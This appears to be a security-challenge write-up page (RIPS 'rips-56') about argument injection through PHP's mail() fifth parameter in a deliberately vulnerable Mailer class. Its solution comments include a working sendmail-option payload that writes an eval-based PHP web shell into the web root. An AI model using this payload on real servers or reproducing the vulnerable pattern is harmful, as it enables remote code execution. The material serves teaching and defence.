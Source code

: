 ```yaml
---

title: rips-56
author: raxjs
tags: [php]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1154752480611373058" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
class Mailer {
    private function sanitize($email) {
        if(!filter_var($email, FILTER_VALIDATE_EMAIL)) {
            return '';
        }

        return escapeshellarg($email);
    }

    public function send($data) {
        if(!isset($data['to'])) {
            $data['to'] = 'none@ripstech.com';
        } else {
            $data['to'] = $this->sanitize($data['to']);
        }

        if(!isset($data['from'])) {
            $data['from'] = 'none@ripstech.com';
        } else {
            $data['from'] = $this->sanitize($data['from']);
        }

        if(!isset($data['subject'])) {
            $data['subject'] = 'No Subject';
        }

        if(!isset($data['message'])) {
            $data['message'] = '';
        }

        mail($data['to'], $data['subject'], $data['message'], '', "-f" . $data['from']);
    }
}
$mailer = new Mailer();
$mailer->send($_POST);

{{< /code >}}

# Solution
{{< code language="php" highlight="" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
class Mailer {
    private function sanitize($email) {
        // 2) $email is user input. this filter is not 
        // enough to prevent argument injection later in
        // step 3
        if(!filter_var($email, FILTER_VALIDATE_EMAIL)) {
            return '';
        }

        return escapeshellarg($email);
    }

    public function send($data) {
        if(!isset($data['to'])) {
            $data['to'] = 'none@ripstech.com';
        } else {
            $data['to'] = $this->sanitize($data['to']);
        }

        if(!isset($data['from'])) {
            $data['from'] = 'none@ripstech.com';
        } else {
            $data['from'] = $this->sanitize($data['from']);
        }

        if(!isset($data['subject'])) {
            $data['subject'] = 'No Subject';
        }

        if(!isset($data['message'])) {
            $data['message'] = '';
        }
        // 3) argument injection in parameter 5 ($data['from'])
        mail($data['to'], $data['subject'], $data['message'], '', "-f" . $data['from']);
    }
}
$mailer = new Mailer();
// 1) send receives user input as argument
$mailer->send($_POST);

// [1] https://blog.sonarsource.com/why-mail-is-dangerous-in-php?redirect=rips
//
// var_dump(!filter_var('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php', FILTER_VALIDATE_EMAIL));
// bool(false)
// php > echo sanitize('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php');
// ''\''a."'\''\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php'
// php > echo escapeshellcmd(sanitize('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php'));
// ''\\''a."\'\\\'\'\\ -OQueueDirectory=\\%0D\<\?=eval\(\$_GET\[c\]\)\?\>\\ -X/var/www/html/"@a.php\'

// $ cat /tmp/test-mail.sh
// #!/bin/sh
// 
// echo "$@" >> /tmp/test-mail.log
// 
// $ grep sendmail_path /etc/php7/php.ini
// sendmail_path = /tmp/test-mail.sh

// $ cat /tmp/test-mail.log
// -faaa@bbb.ru
// -f\a.\'\\'\'\ -OQueueDirectory=\%0D\<\?=eval\($_GET\[c\]\)\?\>\ -X/var/www/html/@a.php'

// mail(
//     string $to,
//     string $subject,
//     string $message,
//     array|string $additional_headers = [],
//     string $additional_params = ""
// ): bool
//
// additional_params (optional)
// The additional_params parameter can be used to pass additional flags
// as command line options to the program configured to be used when
// sending mail, as defined by the sendmail_path configuration
// setting. For example, this can be used to set the envelope sender
// address when using sendmail with the -f sendmail option.
// 
// This parameter is escaped by escapeshellcmd() internally to prevent
// command execution. escapeshellcmd() prevents command execution, but
// allows to add additional parameters. For security reasons, it is
// recommended for the user to sanitize this parameter to avoid adding
// unwanted parameters to the shell command.
// 
// Since escapeshellcmd() is applied automatically, some characters that
// are allowed as email addresses by internet RFCs cannot be used. mail()
// can not allow such characters, so in programs where the use of such
// characters is required, alternative means of sending emails (such as
// using a framework or a library) is recommended.
// 
// The user that the webserver runs as should be added as a trusted user
// to the sendmail configuration to prevent a 'X-Warning' header from
// being added to the message when the envelope sender (-f) is set using
// this method. For sendmail users, this file is /etc/mail/trusted-users.


{{< /code >}}